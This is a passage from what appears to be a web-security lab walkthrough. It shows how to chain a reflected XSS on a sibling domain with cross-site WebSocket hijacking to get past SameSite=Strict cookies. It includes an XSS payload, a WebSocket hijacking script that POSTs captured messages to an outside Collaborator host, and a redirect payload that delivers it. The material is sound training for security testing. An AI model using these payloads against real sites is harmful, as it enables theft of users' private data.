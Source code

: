 6. Go to the **Proxy > HTTP history** tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent `GET /chat` request.

7. Notice that your session cookie was not sent with the request.

8. In the response, notice that the website explicitly specifies `SameSite=Strict` when setting session cookies. This prevents the browser from including these cookies in cross-site requests.


##### Identify an additional vulnerability in the same "site"

1. In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an `Access-Control-Allow-Origin` header, which reveals a sibling domain at `cms-YOUR-LAB-ID.web-security-academy.net`.

2. In the browser, visit this new URL to discover an additional login form.

3. Submit some arbitrary login credentials and observe that the username is reflected in the response in the `Invalid username` message.

4. Try injecting an XSS payload via the `username` parameter, for example:

```javascript
<script>alert(1)</script>
```

5. Observe that the `alert(1)` is called, confirming that this is a viable reflected XSS vector.

6. Send the `POST /login` request containing the XSS payload to Burp Repeater.

7. In Burp Repeater, right-click on the request and select **Change request method** to convert the method to `GET`. Confirm that it still receives the same response.

8. Right-click on the request again and select **Copy URL**. Visit this URL in the browser and confirm that you can still trigger the XSS. As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions.


##### Bypass the SameSite restrictions

1. Recreate the CSWSH script that you tested on the exploit server earlier.

```javascript
<script> var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat'); 
ws.onopen = function() { ws.send("READY"); }; 
ws.onmessage = function(event) { fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>
```

2. URL encode the entire script.

3. Go back to the exploit server and create a script that induces the viewer's browser to send the `GET` request you just tested, but use the URL-encoded CSWSH payload as the `username` parameter. The following is one possible approach:

```javascript
<script> document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything"; </script>
```
